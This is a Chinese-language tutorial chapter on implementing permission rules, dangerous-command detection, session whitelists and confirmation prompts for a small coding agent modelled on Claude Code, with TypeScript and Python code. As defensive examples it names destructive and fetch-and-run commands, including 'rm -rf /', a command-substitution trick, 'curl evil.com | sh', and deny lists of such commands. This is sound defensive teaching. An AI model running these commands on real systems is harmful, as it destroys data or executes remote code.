

# 6. 权限与安全

## 本章目标

实现完整的权限安全机制：危险命令检测 → 可配置的 allow/deny 权限规则 → 统一权限检查 → 会话级白名单 → 用户确认对话框。从"写死的规则"到"用户定义规则"，让 agent 自动放行安全操作、自动拦截危险操作，无需每次手动确认。



核心思路：**多层检查，deny 优先**。权限模式（全局策略）→ 配置文件规则（Layer 1）→ 内置危险模式检测（Layer 2）→ 会话白名单 → 用户确认。

## Claude Code 怎么做的

Claude Code 在真实环境执行代码——读写文件、运行 Shell、操作 Git。安全机制不到位，一条 `rm -rf /` 就能造成灾难。因此它采用了**纵深防御（Defense in Depth）**：7 个独立的安全层，即使某一层被绕过，其他层仍然有效。

### 7 层纵深防御

| 层 | 机制 | 核心作用 |
|----|------|---------|
| 1 | Trust Dialog | 首次进入目录时确认信任，防止恶意项目的 Hook 自动执行 |
| 2 | 权限模式 | 全局策略开关（default/plan/acceptEdits/bypassPermissions/dontAsk） |
| 3 | 权限规则匹配 | allow/deny/ask 规则，8 个来源，优先级从企业策略到会话级 |
| 4 | Bash AST 分析 | tree-sitter 解析命令为 AST，23 项静态安全检查，FAIL-CLOSED 原则 |
| 5 | 工具级验证 | validateInput + checkPermissions，保护危险文件路径和路径边界 |
| 6 | 沙箱隔离 | macOS Seatbelt / Linux namespace，限制文件系统和网络访问范围 |
| 7 | 用户确认 | 交互对话框 + Hook + ML 分类器竞速，第一个决定生效 |

几个值得了解的设计细节：

**`bypassPermissions`（--yolo）并不是真的绕过一切**。源码检查顺序是：先检查 deny 规则（命中直接拒绝）→ 再检查 bypass-immune 路径（`.git/`、`.claude/` 等仍需确认）→ 最后才跳过普通确认。管理员通过 deny 规则可以对 `--yolo` 施加约束。

**Layer 4 为什么不用正则**：Shell 语法复杂，正则面对 `echo hello$(rm -rf /)` 这类命令会看到的是 `echo hello`，实际执行的却是 `rm -rf /`。tree-sitter 真正解析 AST，不理解的结构（命令替换、变量展开、控制流等）一律标记为 `too-complex`，要求用户确认。

**8 种规则来源，严格优先级**：企业 MDM 策略（不可覆盖）> 用户全局 > 项目级（提交到仓库）> 本地项目（不提交）> CLI 参数 > 运行时参数 > 命令定义 > 会话级（点"始终允许"产生）。低优先级不能覆盖高优先级——企业策略 deny 的操作，用户在任何层级写 allow 都无效。

**3 种匹配类型**：精确匹配（`Bash(git status)`）、前缀匹配（`Bash(npm:*)`）、通配符匹配（`Bash(git * --no-verify)`）。通配符以空格+`*` 结尾时尾部可选，与前缀语法行为保持一致。

**Layer 7 的竞速机制**：UI 对话框、PermissionRequest Hook、ML 分类器三者同时启动，`createResolveOnce` 守卫确保只有第一个决定生效。一旦用户触碰对话框，Hook 和分类器的结果一律被丢弃——人类意图永远优先。对话框还有 200ms 防误触宽限期。

**拒绝追踪**：连续拒绝 3 次触发降级（auto 模式回退到交互确认），总拒绝 20 次中止 Agent 执行——防止模型陷入反复尝试被拒绝操作的死循环。

## 我们的实现

把 7 层简化为 **4 层**：危险命令检测、权限规则系统、统一权限检查、会话级白名单。8 种规则来源简化为 **2 种**（用户级 + 项目级），3 种规则行为简化为 **2 种**（allow + deny）。

### 1. 危险命令检测

用 16 个正则覆盖最常见的破坏性操作（10 个 Unix + 6 个 Windows）：

<!-- tabs:start -->
#### **TypeScript**
```typescript
// tools.ts
const DANGEROUS_PATTERNS = [
  /\brm\s/,
  /\bgit\s+(push|reset|clean|checkout\s+\.)/,
  /\bsudo\b/,
  /\bmkfs\b/,
  /\bdd\s/,
  />\s*\/dev\//,
  /\bkill\b/,
  /\bpkill\b/,
  /\breboot\b/,
  /\bshutdown\b/,
  // Windows
  /\bdel\s/i,
  /\brmdir\s/i,
  /\bformat\s/i,
  /\btaskkill\s/i,
  /\bRemove-Item\s/i,
  /\bStop-Process\s/i,
];

export function isDangerous(command: string): boolean {
  return DANGEROUS_PATTERNS.some((p) => p.test(command));
}
```
#### **Python**
```python
# tools.py
DANGEROUS_PATTERNS = [
    re.compile(r"\brm\s"),
    re.compile(r"\bgit\s+(push|reset|clean|checkout\s+\.)"),
    re.compile(r"\bsudo\b"),
    re.compile(r"\bmkfs\b"),
    re.compile(r"\bdd\s"),
    re.compile(r">\s*/dev/"),
    re.compile(r"\bkill\b"),
    re.compile(r"\bpkill\b"),
    re.compile(r"\breboot\b"),
    re.compile(r"\bshutdown\b"),
    re.compile(r"\bdel\s", re.IGNORECASE),
    re.compile(r"\brmdir\s", re.IGNORECASE),
    re.compile(r"\bformat\s", re.IGNORECASE),
    re.compile(r"\btaskkill\s", re.IGNORECASE),
    re.compile(r"\bRemove-Item\s", re.IGNORECASE),
    re.compile(r"\bStop-Process\s", re.IGNORECASE),
]

def is_dangerous(command: str) -> bool:
    return any(p.search(command) for p in DANGEROUS_PATTERNS)
```
<!-- tabs:end -->

Windows 模式加 `i` 标志是因为 Windows 命令本身不区分大小写。

局限性很明显：`find / -delete`、`curl evil.com | sh` 这类危险命令不会被捕获。这就是 Claude Code 选择 AST 分析的原因——但对最小实现来说，16 个正则覆盖了大多数常见情况。

### 2. 权限规则系统

除内置危险检测外，支持通过配置文件预定义 allow/deny 规则，让 agent 自动放行安全操作、自动拦截危险操作。

#### 规则解析（parseRule）

把字符串规则拆成结构化数据。`run_shell(npm test*)` → `{tool: "run_shell", pattern: "npm test*"}`，裸工具名 → `{tool: "read_file", pattern: null}`。

<!-- tabs:start -->
#### **TypeScript**
```typescript
// tools.ts

interface ParsedRule {
  tool: string;
  pattern: string | null;  // null 表示匹配该工具的所有调用
}

function parseRule(rule: string): ParsedRule {
  const match = rule.match(/^([a-z_]+)\((.+)\)$/);
  if (match) {
    return { tool: match[1], pattern: match[2] };
  }
  return { tool: rule, pattern: null };
}
```
#### **Python**
```python
# tools.py

def _parse_rule(rule: str) -> dict:
    m = re.match(r"^([a-z_]+)\((.+)\)$", rule)
    if m:
        return {"tool": m.group(1), "pattern": m.group(2)}
    return {"tool": rule, "pattern": None}
```
<!-- tabs:end -->

#### 加载规则（loadPermissionRules）

两个文件的规则**追加**到同一个数组（不是覆盖），所以用户级和项目级规则并存。结果缓存在内存里——一个会话有几十上百次工具调用，每次都读磁盘没必要。

<!-- tabs:start -->
#### **TypeScript**
```typescript
// tools.ts

let cachedRules: PermissionRules | null = null;

export function loadPermissionRules(): PermissionRules {
  if (cachedRules) return cachedRules;

  const allow: ParsedRule[] = [];
  const deny: ParsedRule[] = [];

  const userSettings = loadSettings(join(homedir(), ".claude", "settings.json"));
  const projectSettings = loadSettings(join(process.cwd(), ".claude", "settings.json"));

  for (const settings of [userSettings, projectSettings]) {
    if (!settings?.permissions) continue;
    if (Array.isArray(settings.permissions.allow)) {
      for (const r of settings.permissions.allow) allow.push(parseRule(r));
    }
    if (Array.isArray(settings.permissions.deny)) {
      for (const r of settings.permissions.deny) deny.push(parseRule(r));
    }
  }

  cachedRules = { allow, deny };
  return cachedRules;
}
```
#### **Python**
```python
# tools.py

_cached_rules: dict | None = None

def load_permission_rules() -> dict:
    global _cached_rules
    if _cached_rules is not None:
        return _cached_rules

    allow: list[dict] = []
    deny: list[dict] = []

    user_settings = _load_settings(Path.home() / ".claude" / "settings.json")
    project_settings = _load_settings(Path.cwd() / ".claude" / "settings.json")

    for settings in [user_settings, project_settings]:
        if not settings or "permissions" not in settings:
            continue
        perms = settings["permissions"]
        for r in perms.get("allow", []):
            allow.append(_parse_rule(r))
        for r in perms.get("deny", []):
            deny.append(_parse_rule(r))

    _cached_rules = {"allow": allow, "deny": deny}
    return _cached_rules
```
<!-- tabs:end -->

#### 规则匹配（matchesRule）

三层判断：工具名不匹配直接跳过 → 无 pattern 则工具名匹配即可 → 有 pattern 则取 `command` 或 `file_path` 做匹配。支持两种匹配方式：尾部 `*` 做前缀匹配，否则精确匹配。

<!-- tabs:start -->
#### **TypeScript**
```typescript
// tools.ts

function matchesRule(
  rule: ParsedRule,
  toolName: string,
  input: Record<string, any>
): boolean {
  if (rule.tool !== toolName) return false;
  if (!rule.pattern) return true;

  let value = "";
  if (toolName === "run_shell") value = input.command || "";
  else if (input.file_path) value = input.file_path;
  else return true;

  const pattern = rule.pattern;
  if (pattern.endsWith("*")) {
    return value.startsWith(pattern.slice(0, -1));
  }
  return value === pattern;
}
```
#### **Python**
```python
# tools.py

def _matches_rule(rule: dict, tool_name: str, inp: dict) -> bool:
    if rule["tool"] != tool_name:
        return False
    if rule["pattern"] is None:
        return True

    value = ""
    if tool_name == "run_shell":
        value = inp.get("command", "")
    elif "file_path" in inp:
        value = inp["file_path"]
    else:
        return True

    pattern = rule["pattern"]
    if pattern.endswith("*"):
        return value.startswith(pattern[:-1])
    return value == pattern
```
<!-- tabs:end -->

注意：`run_shell(np*)` 会同时匹配 `npm` 和 `npx`，写规则时注意前缀精确度。

#### 规则检查（checkPermissionRules）

返回值是三态：`"allow"` / `"deny"` / `null`（无意见，交给下一层）。deny 先于 allow 遍历，所以即使你写了 `allow: ["run_shell"]`，`deny: ["run_shell(rm -rf*)"]` 仍然生效——"先放开，再收紧"的规则写法因此成立。

<!-- tabs:start -->
#### **TypeScript**
```typescript
// tools.ts

function checkPermissionRules(
  toolName: string,
  input: Record<string, any>
): "allow" | "deny" | null {
  const rules = loadPermissionRules();

  for (const rule of rules.deny) {
    if (matchesRule(rule, toolName, input)) return "deny";
  }
  for (const rule of rules.allow) {
    if (matchesRule(rule, toolName, input)) return "allow";
  }
  return null;
}
```
#### **Python**
```python
# tools.py

def _check_permission_rules(tool_name: str, inp: dict) -> str | None:
    rules = load_permission_rules()

    for rule in rules["deny"]:
        if _matches_rule(rule, tool_name, inp):
            return "deny"
    for rule in rules["allow"]:
        if _matches_rule(rule, tool_name, inp):
            return "allow"
    return None
```
<!-- tabs:end -->

### 3. 统一权限检查

`checkPermission` 是权限系统的统一入口，整合了权限模式、配置文件规则和内置危险检测，返回 `{action, message}`，action 三种值：`allow`、`deny`、`confirm`。

优先级：**deny 规则 > allow 规则 > 模式逻辑 > 内置危险检测 > 默认允许**。

<!-- tabs:start -->
#### **TypeScript**
```typescript
// tools.ts — checkPermission

export function checkPermission(
  toolName: string,
  input: Record<string, any>,
  mode: PermissionMode = "default",
  planFilePath?: string
): { action: "allow" | "deny" | "confirm"; message?: string } {
  if (mode === "bypassPermissions") return { action: "allow" };

  // Layer 1: 配置文件规则（deny 优先）
  const ruleResult = checkPermissionRules(toolName, input);
  if (ruleResult === "deny") {
    return { action: "deny", message: `Denied by permission rule for ${toolName}` };
  }
  if (ruleResult === "allow") {
    return { action: "allow" };
  }

  // 读工具永远安全
  if (READ_TOOLS.has(toolName)) return { action: "allow" };

  // 权限模式检查
  if (mode === "plan") {
    if (EDIT_TOOLS.has(toolName)) {
      const filePath = input.file_path || input.path;
      if (planFilePath && filePath === planFilePath) return { action: "allow" };
      return { action: "deny", message: `Blocked in plan mode: ${toolName}` };
    }
    if (toolName === "run_shell") {
      return { action: "deny", message: "Shell commands blocked in plan mode" };
    }
  }

  if (mode === "acceptEdits" && EDIT_TOOLS.has(toolName)) {
    return { action: "allow" };
  }

  // Layer 2: 内置危险模式检查
  let needsConfirm = false;
  let confirmMessage = "";

  if (toolName === "run_shell" && isDangerous(input.command)) {
    needsConfirm = true;
    confirmMessage = input.command;
  } else if (toolName === "write_file" && !existsSync(input.file_path)) {
    needsConfirm = true;
    confirmMessage = `write new file: ${input.file_path}`;
  } else if (toolName === "edit_file" && !existsSync(input.file_path)) {
    needsConfirm = true;
    confirmMessage = `edit non-existent file: ${input.file_path}`;
  }

  if (needsConfirm) {
    if (mode === "dontAsk") {
      return { action: "deny", message: `Auto-denied (dontAsk mode): ${confirmMessage}` };
    }
    return { action: "confirm", message: confirmMessage };
  }

  return { action: "allow" };
}
```
#### **Python**
```python
# tools.py — check_permission

def check_permission(
    tool_name: str,
    inp: dict,
    mode: str = "default",
    plan_file_path: str | None = None,
) -> dict:
    """Returns {"action": "allow"|"deny"|"confirm", "message": ...}"""
    if mode == "bypassPermissions":
        return {"action": "allow"}

    # Layer 1: 配置文件规则（deny 优先）
    rule_result = _check_permission_rules(tool_name, inp)
    if rule_result == "deny":
        return {"action": "deny", "message": f"Denied by permission rule for {tool_name}"}
    if rule_result == "allow":
        return {"action": "allow"}

    # 读工具永远安全
    if tool_name in READ_TOOLS:
        return {"action": "allow"}

    # 权限模式检查
    if mode == "plan":
        if tool_name in EDIT_TOOLS:
            file_path = inp.get("file_path") or inp.get("path")
            if plan_file_path and file_path == plan_file_path:
                return {"action": "allow"}
            return {"action": "deny", "message": f"Blocked in plan mode: {tool_name}"}
        if tool_name == "run_shell":
            return {"action": "deny", "message": "Shell commands blocked in plan mode"}

    if mode == "acceptEdits" and tool_name in EDIT_TOOLS:
        return {"action": "allow"}

    # Layer 2: 内置危险模式检查
    needs_confirm = False
    confirm_message = ""

    if tool_name == "run_shell" and is_dangerous(inp.get("command", "")):
        needs_confirm = True
        confirm_message = inp.get("command", "")
    elif tool_name == "write_file" and not Path(inp.get("file_path", "")).exists():
        needs_confirm = True
        confirm_message = f"write new file: {inp.get('file_path', '')}"
    elif tool_name == "edit_file" and not Path(inp.get("file_path", "")).exists():
        needs_confirm = True
        confirm_message = f"edit non-existent file: {inp.get('file_path', '')}"

    if needs_confirm:
        if mode == "dontAsk":
            return {"action": "deny", "message": f"Auto-denied (dontAsk mode): {confirm_message}"}
        return {"action": "confirm", "message": confirm_message}

    return {"action": "allow"}
```
<!-- tabs:end -->

触发确认的条件：`run_shell` + 危险命令，`write_file` / `edit_file` + 目标不存在。`read_file`、`list_files`、`grep_search` 永远安全。Layer 1 无意见才进 Layer 2，两层都没拦住就默认允许。

### 4. 会话级白名单

在 Agent Loop 中，用 `confirmedPaths` Set 记住已授权的操作：

<!-- tabs:start -->
#### **TypeScript**
```typescript
// agent.ts

private confirmedPaths: Set<string> = new Set();

const perm = checkPermission(toolUse.name, input, this.permissionMode, this.planFilePath);

if (perm.action === "deny") {
  printInfo(`Denied: ${perm.message}`);
  toolResults.push({
    type: "tool_result",
    tool_use_id: toolUse.id,
    content: `Action denied: ${perm.message}`,
  });
  continue;
}

if (perm.action === "confirm" && perm.message && !this.confirmedPaths.has(perm.message)) {
  const confirmed = await this.confirmDangerous(perm.message);
  if (!confirmed) {
    toolResults.push({
      type: "tool_result",
      tool_use_id: toolUse.id,
      content: "User denied this action.",
    });
    continue;
  }
  this.confirmedPaths.add(perm.message);
}
```
#### **Python**
```python
# agent.py

self._confirmed_paths: set[str] = set()

perm = check_permission(tu.name, inp, self.permission_mode, self._plan_file_path)

if perm["action"] == "deny":
    print_info(f"Denied: {perm.get('message', '')}")
    tool_results.append({"type": "tool_result", "tool_use_id": tu.id,
                         "content": f"Action denied: {perm.get('message', '')}"})
    continue

if perm["action"] == "confirm" and perm.get("message") and perm["message"] not in self._confirmed_paths:
    confirmed = await self._confirm_dangerous(perm["message"])
    if not confirmed:
        tool_results.append({"type": "tool_result", "tool_use_id": tu.id,
                             "content": "User denied this action."})
        continue
    self._confirmed_paths.add(perm["message"])
```
<!-- tabs:end -->

拒绝时把 `"User denied this action."` 作为工具结果返回，而不是抛错或中断循环——LLM 看到后会调整策略，这是关键设计。deny 规则命中时不弹对话框，直接把拒绝消息返回给模型。confirm 走会话白名单，用户确认一次后同一操作不再重复询问。

### 5. 确认对话框

<!-- tabs:start -->
#### **TypeScript**
```typescript
// agent.ts
private async confirmDangerous(command: string): Promise<boolean> {
  printConfirmation(command);
  const rl = readline.createInterface({ input: process.stdin, output: process.stdout });
  return new Promise((resolve) => {
    rl.question("  Allow? (y/n): ", (answer) => {
      rl.close();
      resolve(answer.toLowerCase().startsWith("y"));
    });
  });
}
```
#### **Python**
```python
# agent.py
async def _confirm_dangerous(self, command: str) -> bool:
    print_confirmation(command)
    if self.confirm_fn:
        return await self.confirm_fn(command)
    try:
        answer = input("  Allow? (y/n): ")
        return answer.lower().startswith("y")
    except EOFError:
        return False
```
<!-- tabs:end -->

### 5 种权限模式

| 模式 | 读工具 | 编辑工具 | Shell（安全） | Shell（危险） | 适用场景 |
|------|--------|----------|-------------|-------------|---------|
| `default` | ✅ | ⚠️ confirm(新文件) | ✅ | ⚠️ confirm | 日常使用 |
| `plan` | ✅ | ❌ deny | ❌ deny | ❌ deny | 只规划不执行 |
| `acceptEdits` | ✅ | ✅ | ✅ | ⚠️ confirm | 信任编辑 |
| `bypassPermissions` | ✅ | ✅ | ✅ | ✅ | --yolo |
| `dontAsk` | ✅ | ❌ deny | ✅ | ❌ deny | CI/非交互 |

```bash
mini-claude --yolo "..."           # bypassPermissions
mini-claude --plan "..."           # plan mode
mini-claude --accept-edits "..."   # acceptEdits
mini-claude --dont-ask "..."       # dontAsk（CI 环境）
```

`plan` 模式下模型还可以通过 `enter_plan_mode` / `exit_plan_mode` 工具动态切换，系统会生成一个 plan 文件路径（`~/.claude/plans/plan-<sessionId>.md`）作为唯一可写文件。

### 配置文件格式

```json
// ~/.claude/settings.json（用户级，全局生效）
{
  "permissions": {
    "allow": [
      "read_file",
      "list_files",
      "grep_search",
      "run_shell(npm test*)",
      "run_shell(git status)",
      "run_shell(git diff*)"
    ],
    "deny": [
      "run_shell(rm -rf*)",
      "run_shell(git push --force*)"
    ]
  }
}
```

```json
// .claude/settings.json（项目级，提交到仓库）
{
  "permissions": {
    "allow": ["run_shell(npm run build)"],
    "deny": ["run_shell(curl*)"]
  }
}
```

两个文件的规则合并后一起生效。规则格式：
- `"read_file"` — 匹配该工具的所有调用
- `"run_shell(npm test*)"` — 匹配 `run_shell` 中命令以 `npm test` 开头的调用

**为什么 deny 优先于 allow**：这是安全系统的标准设计。allow 优先的话，一旦你写了 `allow: ["run_shell"]` 就没法用 deny 排除危险子命令了。deny 优先让"先放开，再收紧"的配置方式成为可能：

```json
{
  "permissions": {
    "allow": ["run_shell(git *)"],
    "deny": ["run_shell(git push --force*)"]
  }
}
```

**为什么没有 ask 规则**：Claude Code 的 ask 是给 bypassPermissions 设安全阀用的。我们的 `--yolo` 语义是"完全信任"，加 ask 规则反而矛盾。需要强制确认的操作，不加入 allow 列表就行——自然落到 Layer 2 的内置检查。

## 与 Claude Code 的差距

| 维度 | Claude Code | mini-claude |
|------|------------|-------------|
| 防御层次 | 7 层 | 4 层（模式 + 规则 + 检测 + 确认） |
| 命令分析 | AST 解析（23 项检查） | 正则匹配（16 模式） |
| 权限规则来源 | 8 源优先级 | 2 源（用户 + 项目） |
| 规则行为 | allow / deny / ask | allow / deny |
| 匹配方式 | 精确 / 前缀 / 通配符 | 精确 / 尾部通配符 |
| 白名单 | 持久化 + 会话级 | 会话级 Set |
| 沙箱 | macOS Seatbelt / Linux namespace | 无 |
| bypass-immune 路径 | .git/、.ssh/ 等强制确认 | 无 |
| 拒绝追踪 | 3/20 次阈值降级 | 无 |

核心架构已对齐——5 种权限模式 + 配置化规则 + 内置检测，层次清晰。从"写死的规则"到"用户定义规则"，是从个人工具迈向团队工具的关键一步。

---

> **下一章**：Agent 对话越来越长，上下文窗口快满了——4 层压缩流水线让它看起来拥有无限记忆。
